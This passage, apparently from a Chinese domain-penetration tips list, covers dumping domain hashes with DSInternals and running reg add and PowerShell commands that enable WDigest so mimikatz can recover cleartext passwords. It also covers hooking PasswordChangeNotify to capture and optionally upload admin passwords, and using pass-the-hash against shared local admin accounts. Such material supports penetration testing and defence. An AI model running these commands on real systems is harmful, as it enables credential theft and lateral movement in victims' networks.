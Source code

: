https://www.dsinternals.com/wp-content/uploads/DSInternals_v2.8.zip

适用条件：

Windows PowerShell 3.0 or 3.0+

.NET Framework 4.0 or 4.0+

参考：

《导出当前域内所有用户hash的技术整理》

《利用Powershell快速导出域控所有用户Hash》

---

### Tips 17. 导出Windows系统明文口令

Windows Server 2012默认无法使用mimikatz导出明文口令，部分Windows Server 2008也一样

解决方法：启用Wdigest Auth

cmd:

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

or

powershell:

```
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1
```

重启或者用户再次登录，能够导出明文口令

参考：

《域渗透——Dump Clear-Text Password after KB2871997 installed》

---

### Tips 18. 可通过Hook PasswordChangeNotify实时记录域控管理员的新密码

当然，可选择保存在本地或是将密码上传至服务器

参考：

《域渗透——Hook PasswordChangeNotify》

---

### Tips 19. 在域渗透时要记得留意域内主机的本地管理员账号

如果管理员疏忽，域内主机使用相同的本地管理员账号，可以通过pass-the-hash远程登录域内其他主机

参考：
